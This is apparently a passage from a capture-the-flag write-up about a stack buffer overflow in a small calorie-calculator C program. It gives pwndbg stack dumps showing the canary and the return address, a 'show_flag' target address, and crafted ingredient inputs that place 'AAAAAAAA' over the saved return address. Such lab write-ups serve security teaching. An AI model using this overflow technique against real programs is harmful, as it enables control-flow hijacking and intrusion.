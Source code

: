 Key Findings:-

1. at ` 0x7fffffffdc98 ◂— 0xfa0d90893da85500` is the canary
2. at `0x7fffffffdca8 —▸ 0x7ffff7decc8a (__libc_start_call_main+122)` is the return address when program ends

Continue the program using command `continue` in gdb

Next give these inputs:-

```python
hint: show_flag = 0x55555555525f

Enter the name of ingredient 1: a
Enter the calories per gram for a: 1.0
Enter the amount in grams for a: 1.0

Enter the name of ingredient 2: b
Enter the calories per gram for b: 2.0
Enter the amount in grams for b: 2.0

Enter the name of ingredient 3: c
Enter the calories per gram for c: 3.0
Enter the amount in grams for c: 3.0

Enter the name of ingredient 4: AAAAAAAA
Enter the calories per gram for AAAAAAAA: 5.0
Enter the amount in grams for AAAAAAAA: 5.0

Total calories for the meal: 14.00 kcal
Breakpoint 2, 0x000055555555551f in main () at main.c:53
```

```python
pwndbg> tele rsp 40
00:0000│ rsp 0x7fffffffdbb0 ◂— 0x4000000c0
01:0008│-0e8 0x7fffffffdbb8 ◂— 0x402c000000000000
02:0010│-0e0 0x7fffffffdbc0 ◂— 0x3ff0000000000000
03:0018│-0d8 0x7fffffffdbc8 ◂— 0x3ff0000000000000
04:0020│-0d0 0x7fffffffdbd0 ◂— 0x80061 /* 'a' */
05:0028│-0c8 0x7fffffffdbd8 ◂— 0x1000000
06:0030│-0c0 0x7fffffffdbe0 ◂— 0xc00000
07:0038│-0b8 0x7fffffffdbe8 ◂— 0xc00000
08:0040│-0b0 0x7fffffffdbf0 ◂— 0x8
09:0048│-0a8 0x7fffffffdbf8 ◂— 0x40 /* '@' */
0a:0050│-0a0 0x7fffffffdc00 ◂— 0x80000
0b:0058│-098 0x7fffffffdc08 ◂— 0x4000000000000000
0c:0060│-090 0x7fffffffdc10 ◂— 0x4000000000000000
0d:0068│-088 0x7fffffffdc18 ◂— 0x62 /* 'b' */
0e:0070│-080 0x7fffffffdc20 ◂— 0x19
0f:0078│-078 0x7fffffffdc28 ◂— 0x0
... ↓        4 skipped
14:00a0│-050 0x7fffffffdc50 ◂— 0x4008000000000000
15:00a8│-048 0x7fffffffdc58 ◂— 0x4008000000000000
16:00b0│-040 0x7fffffffdc60 ◂— 0x63 /* 'c' */
17:00b8│-038 0x7fffffffdc68 ◂— 0x0
... ↓        3 skipped
1b:00d8│-018 0x7fffffffdc88 —▸ 0x7ffff7fe6c40 (dl_main) ◂— push rbp
1c:00e0│-010 0x7fffffffdc90 ◂— 0x0
1d:00e8│-008 0x7fffffffdc98 ◂— 0x4014000000000000
1e:00f0│ rbp 0x7fffffffdca0 ◂— 0x4014000000000000
1f:00f8│+008 0x7fffffffdca8 ◂— 'AAAAAAAA
```
